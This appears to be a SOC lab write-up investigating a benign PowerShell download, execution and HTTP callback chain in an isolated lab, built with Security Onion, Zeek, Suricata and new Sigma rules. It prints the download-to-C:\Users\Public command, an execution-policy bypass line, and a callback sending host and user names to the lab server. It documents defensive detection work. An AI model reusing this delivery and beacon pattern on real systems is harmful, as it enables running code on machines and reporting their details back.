# PowerShell Download, Execution, and HTTP Callback Investigation

## Objective

Investigate a suspicious PowerShell delivery-and-execution chain using Security Onion, Zeek, Suricata, Elastic Endpoint telemetry, Sigma detections, and Security Onion Cases.

The project reproduces a controlled multi-stage incident inside an isolated VirtualBox lab:

1. PowerShell downloads a `.ps1` file over HTTP.
2. Network and endpoint telemetry are correlated to verify the transfer.
3. The downloaded artifact is hashed and statically reviewed.
4. The user executes the script from a user-writable directory.
5. PowerShell spawns child processes, creates local artifacts, and performs an HTTP callback.
6. Endpoint, Zeek, and Suricata telemetry are combined into a single timeline.
7. A detection gap is identified.
8. A new behavioral Sigma rule is created and validated.
9. The activity is scoped across the available lab telemetry.
10. The investigation is documented and closed as a Security Onion case.

The payload and infrastructure were intentionally benign and existed only inside the isolated lab.

---

## Lab Environment

* **Windows 10 — `VICTIM`**
  * Host-only IP: `192.168.56.105`
  * Elastic Endpoint telemetry enabled
* **Kali Linux**
  * Host-only IP: `192.168.56.10`
  * Controlled DNS and HTTP infrastructure
  * Python HTTP server on TCP `8080`
* **Security Onion 3.2.0**
  * Zeek
  * Suricata
  * Sigma / ElastAlert
  * Elastic Endpoint telemetry
  * Hunt
  * Cases
* **MITRE ATT&CK**
* **VirtualBox**

## Lab Topology



---

## Scenario

A SOC analyst receives suspicious PowerShell-related alerts involving the Windows endpoint `VICTIM`.

The activity contains several behaviors that would justify investigation in a real environment:

* PowerShell retrieves a `.ps1` file over HTTP.
* The script is written to `C:\Users\Public`, a user-writable location.
* The file is later executed from Windows Explorer through PowerShell.
* The execution command line contains a process-scoped execution-policy bypass.
* PowerShell launches `whoami.exe` and `cmd.exe`.
* Local artifacts are created.
* PowerShell makes an outbound HTTP callback containing the host and user name.
* Multiple independent telemetry sources describe the same activity.

The goal of the investigation is to determine:

* what was downloaded
* whether the transfer succeeded
* whether the file seen on the network matches the file on disk
* how the file was executed
* what child processes and files were created
* what outbound activity followed execution
* whether the behavior was visible across multiple telemetry sources
* whether the behavior was already covered by detections
* whether similar activity existed elsewhere in the available lab telemetry
* what detection improvements were appropriate

---

# 1. Initial Detection — Suspicious PowerShell Download

A custom Sigma rule was created to detect PowerShell using `Invoke-WebRequest` to retrieve potentially executable or script content over HTTP or HTTPS.

The rule looked for:

* `powershell.exe` or `pwsh.exe`
* `Invoke-WebRequest`
* `http://` or `https://`
* file extensions including `.ps1`, `.exe`, `.dll`, `.msi`, or `.zip`

The rule was configured as **High** severity for the controlled lab.



The controlled download command was:

```powershell
powershell.exe -NoProfile -Command "Invoke-WebRequest -UseBasicParsing -Uri 'http://download.lab.test:8080/win-update.ps1' -OutFile 'C:\Users\Public\win-update.ps1'"
```

Security Onion generated the custom Sigma alert together with Suricata alerts related to the PowerShell HTTP transfer.



The detections established the starting point for the investigation, but they did not by themselves prove that the file had been successfully transferred or executed.

---

# 2. Cross-Source Download Investigation

Security Onion Hunt was used to correlate traffic between the victim and the controlled HTTP server:

```text
source.ip:192.168.56.105
AND destination.ip:192.168.56.10
AND destination.port:8080
```

The same connection was visible through:

* `endpoint.events.network`
* `zeek.conn`
* `zeek.http`
* `zeek.file`
* `suricata.alert`



This was important because the investigation did not rely on a single alert or log source.

## Zeek HTTP and File Evidence

Zeek recorded the successful HTTP transfer:

* source: `192.168.56.105`
* destination: `192.168.56.10:8080`
* method: `GET`
* URI: `/win-update.ps1`
* host: `download.lab.test:8080`
* response: `200 OK`
* response body: `709` bytes

Zeek also analyzed the transferred object and recorded:

| Field | Value |
|---|---|
| Source | `HTTP` |
| MIME type | `text/plain` |
| Bytes seen | `709` |
| Bytes total | `709` |
| Bytes missing | `0` |
| MD5 | `f40aab1dac05efeba7b24d109d8b2a4b` |
| SHA1 | `2c4abda0544336d2a64e49e81e85e9b764934650` |



`709` bytes seen, `709` total, and `0` missing provided evidence that Zeek observed the complete transferred object.

---

# 3. Artifact Verification

The downloaded file was verified directly on the Windows endpoint.

```powershell
Get-FileHash 'C:\Users\Public\win-update.ps1' -Algorithm MD5
Get-FileHash 'C:\Users\Public\win-update.ps1' -Algorithm SHA1
Get-FileHash 'C:\Users\Public\win-update.ps1' -Algorithm SHA256
```

Observed values:

| Algorithm | Hash |
|---|---|
| MD5 | `f40aab1dac05efeba7b24d109d8b2a4b` |
| SHA1 | `2c4abda0544336d2a64e49e81e85e9b764934650` |
| SHA256 | `03dd2f82509e5ece3cde402a2fa5ec47c7d621e27b7ae7fa8a27d16bfbdc28db` |



The endpoint MD5 and SHA1 matched the hashes generated by Zeek from the network transfer.

This linked:

```text
HTTP transfer
      ↓
Zeek file object
      ↓
C:\Users\Public\win-update.ps1
```

The SHA256 also matched the original controlled file hosted on Kali.

---

# 4. Static Payload Analysis

Before execution, the script was reviewed directly.



The controlled script was designed to create observable but harmless behavior:

```text
win-update.ps1
├── write timestamp / user / hostname / IP information
│   └── C:\Users\Public\soc-lab-execution.txt
├── launch cmd.exe
│   └── create C:\Users\Public\soc-lab-child.txt
└── send HTTP GET
    └── /checkin?host=VICTIM&user=admin
```

The script performed no destructive actions, persistence, credential theft, exploitation, or real data exfiltration.

Static review provided an expected-behavior model that could later be compared with endpoint and network telemetry.

---

# 5. User-Initiated Execution

The downloaded script was executed from Windows Explorer using **Run with PowerShell**.

Endpoint telemetry showed:

* process: `powershell.exe`
* PID: `10908`
* parent process: `explorer.exe`
* parent PID: `5984`
* user: `admin`
* path referenced: `C:\Users\Public\win-update.ps1`

The command line contained:

```text
Set-ExecutionPolicy -Scope Process Bypass
```



The process lineage was:

```text
explorer.exe
    └── powershell.exe
        └── C:\Users\Public\win-update.ps1
```

This established the execution origin and the PowerShell process used for later pivots.

---

# 6. Process Tree Investigation

The PowerShell PID was used to identify child processes:

```text
event.dataset:endpoint.events.process
AND host.name:victim
AND process.parent.pid:10908
| table soc_timestamp event.action process.name process.pid process.parent.name process.parent.pid process.command_line user.name
```

The script-generated process activity included:

```text
powershell.exe (PID 10908)
├── conhost.exe
├── whoami.exe
└── cmd.exe
    └── /c echo SOC-LAB-STAGE-2 > C:\Users\Public\soc-lab-child.txt
```



`whoami.exe` matched the user-discovery command identified during static analysis.

The `cmd.exe` command line independently confirmed the creation of the second-stage marker file.

---

# 7. HTTP Callback Correlation

After execution, PowerShell connected back to the controlled Kali HTTP server.

The callback was observed as:

```text
GET /checkin?host=VICTIM&user=admin
```

to:

```text
192.168.56.10:8080
```

Security Onion showed the callback across multiple telemetry sources:

* Elastic Endpoint network telemetry
* Zeek connection telemetry
* Zeek HTTP telemetry
* Suricata alerts



The endpoint PowerShell network event and the Zeek HTTP event shared the same source/destination context and time window, tying the process directly to the callback traffic.

The callback contained only harmless lab metadata.

---

# 8. Host Artifact Correlation

Endpoint file telemetry was used to identify files created during script execution:

```text
event.dataset:endpoint.events.file
AND host.name:victim
AND (file.name:"soc-lab-execution.txt" OR file.name:"soc-lab-child.txt")
| table soc_timestamp event.action file.name file.path process.name process.pid process.parent.name
```

Security Onion showed:

* `powershell.exe` created/modified `soc-lab-execution.txt`
* `cmd.exe` created `soc-lab-child.txt`



This linked the host artifacts back to the responsible processes instead of relying only on the presence of files on disk.

---

# 9. Cross-Source Execution Timeline

A combined Hunt query placed process, file, network, Zeek, and Suricata events into one timeline.



The reconstructed execution sequence was:

| Time (`+01:00`) | Event |
|---|---|
| `13:08:52` | `explorer.exe` launched `powershell.exe` |
| `13:08:53` | PowerShell created `soc-lab-execution.txt` |
| `13:08:53` | `whoami.exe` executed |
| `13:08:53` | PowerShell launched `cmd.exe` |
| `13:08:54` | `cmd.exe` created `soc-lab-child.txt` |
| `13:08:55` | PowerShell connected to `192.168.56.10:8080` |
| `13:08:55` | Zeek recorded the HTTP `/checkin` request |
| `13:08:55` | Suricata recorded related network activity |

Multiple independent data sources therefore described one coherent sequence of events.

---

# 10. Detection Gap Analysis

The investigation exposed an important distinction:

> **Telemetry visibility is not the same as alert coverage.**

Security Onion already contained endpoint telemetry showing:

* PowerShell execution
* `explorer.exe` as the parent
* `Set-ExecutionPolicy`
* `Scope Process`
* `Bypass`
* execution from `C:\Users\Public`

However, the original execution did not generate a dedicated alert specifically for the combination of execution-policy bypass and a user-writable path.

The behavior was **huntable**, but it was not yet being automatically surfaced as a dedicated detection.

This was treated as a detection-engineering gap.

---

# 11. Detection Engineering

A second Sigma rule was created:

**PowerShell Execution Policy Bypass from User-Writable Directory**

The behavioral logic required:

1. PowerShell execution
2. `Set-ExecutionPolicy`, `Scope Process`, and `Bypass`
3. a reference to a commonly user-writable path

```yaml
logsource:
  category: process_creation
  product: windows

detection:
  selection_image:
    Image|endswith:
      - '\powershell.exe'
      - '\pwsh.exe'

  selection_bypass:
    CommandLine|contains|all:
      - 'Set-ExecutionPolicy'
      - 'Scope Process'
      - 'Bypass'

  selection_writable_path:
    CommandLine|contains:
      - '\Users\Public\'
      - '\Downloads\'
      - '\AppData\Local\Temp\'
      - '\AppData\Roaming\'
      - '\Temp\'

  condition: selection_image and selection_bypass and selection_writable_path
```

The rule was configured as **High severity for controlled lab validation**.



The rule is behavioral and does not depend on the specific filename `win-update.ps1`.

## Detection Considerations

This rule should **not** be treated as standalone proof of malicious activity.

Process-scoped execution-policy changes and PowerShell execution from user-writable directories can occur during legitimate administrative or user activity. The **Run with PowerShell** workflow itself can generate execution-policy-bypass behavior.

A production deployment would therefore require tuning and context before determining severity.

Useful contextual factors include:

* parent process and execution origin
* user and account context
* script location and provenance
* complete PowerShell command line
* file hashes and signing state
* preceding download activity
* child-process behavior
* subsequent network connections
* prevalence across other endpoints

The rule is intended to provide a **behavioral investigation signal** that becomes stronger when correlated with surrounding endpoint and network evidence.

---

# 12. Controlled Detection Validation

After the new rule was enabled, the benign controlled activity was replayed inside the isolated lab specifically to validate the detection.

This validation replay was separate from the incident sequence documented above.

Security Onion generated the expected high-severity Sigma alert:



The validation records referenced:

* Event ID `4688`
* process: `powershell.exe`
* validation PID: `9180`
* parent: `explorer.exe`
* the expected bypass command line
* the new Sigma rule

The detection therefore converted behavior that previously required manual hunting into alertable behavior.

## Duplicate Alert Records

The validation produced two Sigma alert records associated with the **same controlled execution**.

Both records referenced the same:

* PowerShell PID `9180`
* parent process `explorer.exe`
* timestamp
* rule
* command line

They were treated as duplicate/parallel alert records for the same execution rather than evidence of two separate PowerShell executions.

The underlying reason for the duplicate records was not assumed without further backend evidence.

---

# 13. Lab-Wide Scoping

After identifying the activity on `VICTIM`, the investigation was broadened using the available lab telemetry.

## Network Scoping

A hunt excluded the known victim and searched for other sources communicating with the controlled server:

```text
(source.ip:* AND destination.ip:192.168.56.10 AND destination.port:8080)
AND NOT source.ip:192.168.56.105
```

Result:

```text
Total Found: 0
```

Within the reviewed window, no other observed source contacted `192.168.56.10:8080`.

## Execution-Pattern Scoping

A second hunt searched for equivalent PowerShell bypass activity outside `VICTIM`:

```text
event.dataset:endpoint.events.process
AND process.name:powershell.exe
AND process.command_line:*Set-ExecutionPolicy*
AND process.command_line:*Bypass*
AND NOT host.name:victim
```

Result:

```text
Total Found: 0
```

Because `VICTIM` was the only Windows endpoint instrumented with Elastic Endpoint telemetry in this lab, this result should be interpreted as **validation of the scoping methodology**, not evidence of enterprise-wide absence.

In a production environment, the same approach could be applied across a larger endpoint population.

---

# MITRE ATT&CK Mapping

## T1105 — Ingress Tool Transfer

The download stage maps to **T1105 — Ingress Tool Transfer**.

Evidence:

* PowerShell retrieved a script from another system.
* The transfer occurred over HTTP.
* The file was written to disk on the victim.
* Zeek observed both the HTTP request and transferred object.
* Endpoint hashes matched Zeek's network-side file hashes.

## T1059.001 — Command and Scripting Interpreter: PowerShell

The execution stage maps to **T1059.001 — PowerShell**.

Evidence:

* `powershell.exe` executed the downloaded `.ps1`.
* PowerShell launched `whoami.exe` and `cmd.exe`.
* PowerShell created local artifacts.
* PowerShell generated the outbound HTTP callback.
* Endpoint telemetry preserved the command line and process lineage.

The Kali host was controlled lab infrastructure, not real adversary infrastructure.

---

# Incident Timeline

> **Lab timing note:** The download and execution stages were performed in separate controlled lab sessions. The script was transferred on 24 September and executed on 25 September. The timestamps therefore represent the actual evidence collected during each testing stage rather than a single uninterrupted attack sequence.

All timestamps below use the Security Onion interface time zone (`+01:00`).

| Time | Event |
|---|---|
| `2026-09-24 15:00:27` | PowerShell requested `/win-update.ps1` from `download.lab.test:8080`; Zeek and Suricata recorded the transfer. |
| Investigation stage | Zeek file hashes were compared with the artifact on Windows. |
| Investigation stage | Static review identified the expected child-process, file, and callback behavior. |
| `2026-09-25 13:08:52` | `explorer.exe` launched PowerShell to execute `C:\Users\Public\win-update.ps1`. |
| `2026-09-25 13:08:53` | PowerShell created `soc-lab-execution.txt` and executed `whoami.exe`. |
| `2026-09-25 13:08:53` | PowerShell launched `cmd.exe`. |
| `2026-09-25 13:08:54` | `cmd.exe` created `soc-lab-child.txt`. |
| `2026-09-25 13:08:55` | PowerShell connected to `192.168.56.10:8080`. |
| `2026-09-25 13:08:55` | Zeek recorded `GET /checkin?host=VICTIM&user=admin`. |
| Detection engineering stage | A gap was identified around the execution-policy-bypass behavior. |
| Validation stage | The new Sigma rule was validated through controlled replay. |
| Scoping stage | The available lab telemetry was searched for equivalent network and execution patterns. |
| Case-management stage | The investigation was documented and closed in Security Onion Cases. |

---

# Indicators and Observables

| Type | Value | Role |
|---|---|---|
| Endpoint | `VICTIM` | Windows system under investigation |
| Endpoint IP | `192.168.56.105` | Source of the download and callback |
| Controlled Server | `192.168.56.10` | Kali HTTP server |
| HTTP Port | `8080/TCP` | Delivery and callback service |
| Domain | `download.lab.test` | Controlled lab hostname |
| Download URL | `http://download.lab.test:8080/win-update.ps1` | Delivery URL |
| Downloaded File | `C:\Users\Public\win-update.ps1` | Controlled PowerShell script |
| MD5 | `f40aab1dac05efeba7b24d109d8b2a4b` | Artifact hash |
